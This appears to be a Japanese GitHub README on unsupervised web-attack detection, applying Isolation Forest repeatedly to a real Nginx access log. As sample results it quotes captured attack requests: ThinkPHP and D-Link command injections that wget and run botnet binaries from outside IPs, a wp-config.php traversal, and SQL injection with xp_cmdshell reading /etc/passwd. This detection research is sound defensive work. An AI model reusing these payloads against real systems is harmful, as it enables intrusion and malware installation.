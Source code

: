 # Walu(Web Application Log Unveiler)

https://www.scutum.jp/information/waf_tech_blog/2021/01/waf-blog-077.html
 
　上記Blog（WAF Tech Blog）から自分なりに調査した結果のメモ。

　ラベル付け無しに攻撃を検知したい。そのためには正常系から離れたデータ、つまり「外れ値」を攻撃と定義して、異常検知アルゴリズムを用いる。上記blogではIsolation forestを使用。データセットは[Harvard Dataverse](https://dataverse.harvard.edu/dataset.xhtml?persistentId=doi:10.7910/DVN/3QBYB5)にあるAccess.log.zip。イラン実在のショッピングサイトにおける2019年1月からの数日間のアクセスログをNginxにより取得。1036万行（3.3GB）。

　上記blogと同条件で取り出したデータから、ランダムに抽出した10000件のデータを2次元にマッピング（画像1）。データセットを調査するとScale-freeしている。[ipynb/viz01.ipynb](ipynb/viz01.ipynb) [[mybinder.org](https://mybinder.org/v2/gh/kenjiaiko/Walu/main?filepath=ipynb%2Fviz01.ipynb)]

<img src="ipynb/t-SNE10000.jpg" width="300">（画像1）

　異常検知において正常系と判断されるのは大きなクラスタ、よって小さいクラスタ群が外れ値となる。データセットがScale-freeしているため外れ値となったクラスタ群を集めて再度Isolation forestを適用すれば、さらなる外れ値が算出される。スコアの閾値を0.25にし、2回Isolation forestを適用すると

```
$ ./run.sh 2 0.25
```

```
$ head -n 2 data/result_by_ip.txt
0.186 185.222.202.118 - - [22/Jan/2019:09:15:46 +0330] "GET /public/index.php?s=/index/%5Cthink%5Capp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]=cd%20/tmp;wget%20http://185.222.202.118/bins/rift.x86;cat%20rift.x86%20%3E%20efjins;chmod%20777%20efjins;./efjins%20thinkphp HTTP/1.1" 301 178 "-" "python-requests/2.4.3 CPython/2.7.9 Linux/3.16.0-4-amd64" "-"
0.188 62.210.157.10 - - [25/Jan/2019:21:20:36 +0330] "GET /wp-content/plugins/wptf-image-gallery/lib-mbox/ajax_load.php?url=../../../../wp-config.php HTTP/1.1" 301 178 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:58.0) Gecko/20100101 Firefox/58.0" "-"
```

　1,2行目に明確な攻撃がくる。61,62行目にはSELECT,UNIONを含んだもの。

```
0.261 176.121.14.183 - - [25/Jan/2019:12:07:57 +0330] "GET /image/29000?name=6aba3c.jpg&amp%3Bwh=200x200&HMCj%3D1300%20AND%201%3D1%20UNION%20ALL%20SELECT%201%2CNULL%2C%27%3Cscript%3Ealert%28%22XSS%22%29%3C%2Fscript%3E%27%2Ctable_name%20FROM%20information_schema.tables%20WHERE%202%3E1--%2F%2A%2A%2F%3B%20EXEC%20xp_cmdshell%28%27cat%20..%2F..%2F..%2Fetc%2Fpasswd%27%29%23 HTTP/1.1" 200 1035 "-" "Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.9b4) Gecko/2008031317 Firefox/3.0b4" "-"
0.261 5.101.40.234 - - [23/Jan/2019:06:53:01 +0330] "GET /image/{{basketItem.id}}?type=productModel&wh=50x50&fhnz%3D1551%20AND%201%3D1%20UNION%20ALL%20SELECT%201%2CNULL%2C%27%3Cscript%3Ealert%28%22XSS%22%29%3C%2Fscript%3E%27%2Ctable_name%20FROM%20information_schema.tables%20WHERE%202%3E1--%2F%2A%2A%2F%3B%20EXEC%20xp_cmdshell%28%27cat%20..%2F..%2F..%2Fetc%2Fpasswd%27%29%23 HTTP/1.1" 301 178 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/534.24 (KHTML, like Gecko) Chrome/11.0.696.3 Safari/534.24" "-"
```

　次に専門家による特徴選択をしないケース。例えば特定の文字（Char）のCountのみを特徴とする場合。

```
$ python printspchars.py > features.txt
$ ./run.sh 2 0.30
```

　先頭から怪しいアクセスは続くが、明確なのは11行目以降。
 
```
0.204 108.61.86.94 - - [24/Jan/2019:13:08:01 +0330] "GET /login.cgi?cli=aa%20aa%27;wget%20http://108.61.86.94/bins/Solstice.mips%20-O%20->%20/tmp/.Solstice;chmod%20777%20/tmp/.Solstice;/tmp/.Solstice%20dlink%27$ HTTP/1.1" 400 166 "-" "Solstice/2.0" "-"
```

　それなりには攻撃アクセスが上位（低いスコア）になっている。ただし、先ほど2行目にあったアクセスは、こちらでは107行目：スコア0.344とかなり遅い登場。

```
0.344 62.210.157.10 - - [25/Jan/2019:21:20:36 +0330] "GET /wp-content/plugins/wptf-image-gallery/lib-mbox/ajax_load.php?url=../../../../wp-config.php HTTP/1.1" 301 178 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:58.0) Gecko/20100101 Firefox/58.0" "-"
```

　当然、専門家が特徴を設定した方が良いが、適当な特徴でもそれなりに（分析には差し障りない程度に）良い結果が得られるようである。

### 実用化のためには？

- 上記BlogではJavaで書かれているが、それとほぼ同様のコードをpythonで書いた。[ipynb/viz02.ipynb](ipynb/viz02.ipynb)
- ラベルのない1036万行のデータから、Isolation forestを繰り返すことで742行にした。[ipynb/result_by_ip.txt](ipynb/result_by_ip.txt)

　全ての外れ値が真に攻撃であるならこれでOKなのだが、当然そうではないので、ここからは人間が確認していく。[ipynb/result_by_ip.txt](ipynb/result_by_ip.txt)の最初の29行ほどは/rapidGrails/jsonListリクエストが続く。まぁ攻撃ではないだろう。そして30行目に明確な攻撃が見つかる。
 
 ```
-0.7341514235140854 202.70.250.38 - - [24/Jan/2019:15:58:56 +0330] GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://185.255.25.168/OwO/Tsunami.x86 -O /tmp/.Tsunami; chmod 777 /tmp/.Tsunami; /tmp/.Tsunami Tsunami.x86' HTTP/1.1\x00 400 166 - - -
```

　最初のパターンはindex.phpに対してshell_exec, wgetをするもの。他にも複数見つかる（32-50行目）。これをpattern1とする。続いて51行目。

```
-0.7335728824690786 176.121.14.183 - - [25/Jan/2019:12:07:57 +0330] GET /image/29000?name=6aba3c.jpg&amp%3Bwh=200x200&HMCj%3D1300%20AND%201%3D1%20UNION%20ALL%20SELECT%201%2CNULL%2C%27%3Cscript%3Ealert%28%22XSS%22%29%3C%2Fscript%3E%27%2Ctable_name%20FROM%20information_schema.tables%20WHERE%202%3E1--%2F%2A%2A%2F%3B%20EXEC%20xp_cmdshell%28%27cat%20..%2F..%2F..%2Fetc%2Fpasswd%27%29%23 HTTP/1.1 200 1035 - Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.9b4) Gecko/2008031317 Firefox/3.0b4 -
```

　UNION, SELECT, script, alertが入ったもの。明らかに攻撃を意図したアクセス。これをpattern2。その後pattern1が続き、126行目に再びpattern2が出てくる。そして206行目。

```
-0.6859619404158754 151.25.29.64 - - [22/Jan/2019:05:55:47 +0330] GET /login.cgi?cli=aa%20aa%27;wget%20http://217.61.5.226/bins/Solstice.mips%20-O%20->%20/tmp/.Solstice;chmod%20777%20/tmp/.Solstice;/tmp/.Solstice%20dlink%27$ HTTP/1.1 400 166 - Solstice/2.0 -
```

　login.cgi, wgetが入ったもの。これをpattern3。


